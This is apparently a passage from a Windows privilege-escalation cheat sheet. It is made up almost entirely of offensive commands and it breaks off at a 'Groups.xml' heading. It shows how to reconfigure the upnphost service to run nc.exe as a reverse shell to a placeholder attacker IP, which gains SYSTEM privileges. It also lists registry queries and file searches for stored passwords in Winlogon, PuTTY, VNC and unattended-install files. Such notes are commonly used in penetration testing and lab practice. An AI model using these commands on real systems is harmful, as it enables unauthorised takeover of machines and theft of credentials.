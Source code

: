 ## check for the found services above
`accesschk.exe -ucqv upnphost`
## upload nc.exe to writable directory
```powershell
sc config upnphost binpath= "C:\Inetpub\nc.exe -nv <attackerip> 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
# check the status now
sc qc upnphost
# change start option as AUTO-START 
sc config SSDPSRV start= auto
#start the services
net start SSDPSRV
net stop upnphost
net start upnphost
```

> listen on port 9988 and you'll get a shell with NT AUTHORITY\SYSTEM privileges

## Registry Checks for Passwords

```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

## Places to Check for Credentials

```powersehll
C:\sysprep.inf
C:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir /b /s unattend.xml
dir /b /s web.config
dir /b /s sysprep.inf
dir /b /s sysprep.xml
dir /b /s *pass*
dir /b /s vnc.ini
```

## Groups.xml

> Look up ip-addres of DC
> `nslookup nameofserver.whatever.local`
>
> It will output something like this
> `Address:  192.168.1.101`
